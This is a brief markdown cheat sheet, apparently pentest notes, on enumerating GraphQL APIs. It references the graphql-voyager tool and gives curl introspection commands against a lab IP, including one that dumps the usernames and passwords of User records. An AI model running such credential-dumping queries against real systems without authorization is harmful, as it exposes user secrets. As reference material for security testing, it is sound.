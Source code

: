 ```yaml
---
title: "Graphql"
date: 2024-7-9
tags: ["graphql", "database"]
---
```


---
### Visualize Tool

<div>

```
+---------------------------------------------------------------+
| 1. Change Schema -> Introspection -> Copy Introspection Query |
| 2. Paste query                                                |
| 3. Display                                                    |
+---------------------------------------------------------------+
```

</div>

<small>*Ref: [graphql-voyager](https://graphql-kit.com/graphql-voyager/)*</small>

### Basic Commands

<div>

```bash
# Get fields from schema
curl -s 10.10.11.10:3000/graphql -H "Content-Type: application/json" -d '{"query":"{__schema{queryType{name,fields{name,description}}}}"}' | jq .
```

```bash
# Get types name
curl -s 10.10.11.10:3000/graphql -H "Content-Type: application/json" -d '{"query":"{__schema{types{name}}}"}' | jq .
```

```bash
# Get fields of type (e.g. User)
curl -s 10.10.11.10:3000/graphql -H "Content-Type: application/json" -d '{"query":"{__type(name:\"User\"){name,fields{name}}}"}' | jq .
```

```bash
# Dump data from type (e.g. User type with fields username and password)
curl -s 10.10.11.10:3000/graphql -H "Content-Type: application/json" -d '{"query":"{User{username,password}}"}' | jq .
```

</div>

<br>